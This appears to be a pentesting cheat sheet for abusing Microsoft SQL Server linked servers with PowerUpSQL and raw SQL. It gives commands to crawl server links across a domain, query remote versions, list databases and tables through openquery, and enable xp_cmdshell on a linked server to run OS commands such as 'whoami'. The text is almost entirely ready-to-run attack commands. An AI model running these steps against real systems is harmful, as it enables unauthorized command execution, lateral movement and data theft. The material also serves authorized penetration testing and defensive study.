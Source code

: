 ### Crawl Links for Instances in the Domain 
A Valid Link Will Be Identified by the DatabaseLinkName Field in the Results


```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
select * from master..sysservers
```

### Crawl Links for a Specific Instance

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
select * from openquery("<instance>",'select * from openquery("<instance2>",''select * from master..sysservers'')')
```

### Query Version of Linked Database


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```

### Execute Procedure on Linked Database

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```

### Determine Names of Linked Databases 

> tempdb, model ,and msdb are default databases usually not worth looking into. Master is also default but may have something and anything else is custom and definitely worth digging into. The result is DatabaseName which feeds into following query.

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```

### Determine All the Tables Names from a Selected Linked Database

> The result is TableName which feeds into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```
